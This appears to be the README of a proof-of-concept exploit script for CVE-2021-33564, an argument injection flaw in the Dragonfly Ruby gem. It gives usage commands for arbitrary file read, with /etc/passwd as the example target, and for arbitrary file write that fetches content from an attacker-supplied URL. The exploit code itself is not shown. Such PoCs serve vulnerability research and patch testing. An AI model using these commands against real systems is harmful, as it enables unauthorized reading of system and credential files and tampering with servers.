 # CVE-2021-33564 PoC
Exploit script for CVE-2021-33564 (Argument Injection in Dragonfly Ruby Gem).

## Usage

### Arbitrary File Read

`python3 poc.py -u https://<target_url>/system/refinery/images -r /etc/passwd`

### Arbitrary File Write

`python3 poc.py -u https://<target_url>/system/refinery/images -w public/test.txt -c test.txt -lu http://<local_url>`

For more information, please visit the blog.
